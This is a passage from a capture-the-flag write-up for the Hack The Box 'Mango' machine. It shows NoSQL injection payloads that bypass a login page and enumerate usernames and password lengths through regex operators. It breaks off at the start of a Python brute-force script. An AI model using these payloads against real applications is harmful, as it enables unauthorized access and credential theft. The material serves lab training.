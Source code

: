 There's a login page with a non-functional Forgot Password button.

![](/assets/images/htb-writeup-mango/web4.png)

## NoSQL injection on the login page

I ran SQLmap and looked for SQL injections on the login page but couldn't find any. I also tried a bunch of simple user/passwords combos in case it's something really simple. Before going to bruteforce I thought I'd try some MangoDB injection since the name of the box looks like a hint.

I'll use the NoSQL injection page from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection) as a reference to try a few payloads.

With `username[$ne]=bob&password[$ne]=invalid&login=login` I can set a negative comparison on the username and password and I notice that I get a 302 HTTP return code instead of a 200 like when I try invalid credentials. I've successfully bypassed the authentication page but the `home.php` I get redirected to doesn't have anything on it.

![](/assets/images/htb-writeup-mango/web5.png)

I'll go back to the NoSQL injection and try to extract the usernames and passwords from the database. First, I'll find the username by using the `[$regex]` operator so I can provide a regex inside of the username parameter.

I already guessed that `admin` is a valid username so I don't even need the regex for that one. The following evaluates to TRUE (returns a 302):

`username[$regex]=^admin$&password[$ne]=invalid&login=login`

Next, I'll try each letter of the alphabet like this:

`username[$regex]=^b.*$&password[$ne]=invalid&login=login`

I find a username starting with letter m with:

`username[$regex]=^m.*$&password[$ne]=invalid&login=login`

So now I just need to guess each letter like:

`username[$regex]=^m.*$&password[$ne]=invalid&login=login`

`username[$regex]=^ma.*$&password[$ne]=invalid&login=login`

`username[$regex]=^man.*$&password[$ne]=invalid&login=login`

`username[$regex]=^mang.*$&password[$ne]=invalid&login=login`

`username[$regex]=^mango.*$&password[$ne]=invalid&login=login`

So I have `mango` and `admin` as valid usernames. Now it's time to tackle the passwords for each account. I can find the password length by using something like this:

Admin (12 characters): `username=admin&password[$regex]=^.{12}$&login=login`
Mango (16 characters): `username=mango&password[$regex]=^.{16}$&login=login`

For the password, I can just the same technique manually or write a simple script like the following to automate the process:

```python
#!/usr/bin/env python3

import re
import requests
import string

chars = string.ascii_letters + string.digits + string.punctuation

print(f"Charset {chars}")

url = "http://staging-order.mango.htb/"
p = ""

```